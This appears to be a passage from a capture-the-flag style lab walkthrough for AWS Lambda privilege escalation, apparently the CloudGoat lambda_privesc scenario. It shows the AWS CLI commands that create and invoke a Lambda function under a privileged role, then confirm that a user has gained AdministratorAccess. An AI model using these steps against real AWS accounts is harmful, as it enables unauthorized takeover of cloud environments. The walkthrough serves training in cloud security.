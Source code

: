 Create lambda function
```shell
aws --profile chris-lambda-manager lambda create-function --function-name admin_function --runtime python3.9 --role arn:aws:iam::###:role/cg-debug-role-lambda_privesc_### --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip
```

### Invoke lambda function
Invoke lambda function
```shell
aws --profile chris-lambda-manager lambda invoke --function-name admin_function out.txt
```

### Check `chris` user policy
```shell
aws --profile chris iam list-attached-user-policies --user-name <chris-username>
```

Result:
```json
{
    "AttachedPolicies": [
        {
            "PolicyName": "cg-chris-policy-###",
            "PolicyArn": "arn:aws:iam::###:policy/cg-chris-policy-###"
        },
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
```

Now the `chris` user got admin access policy. 😈
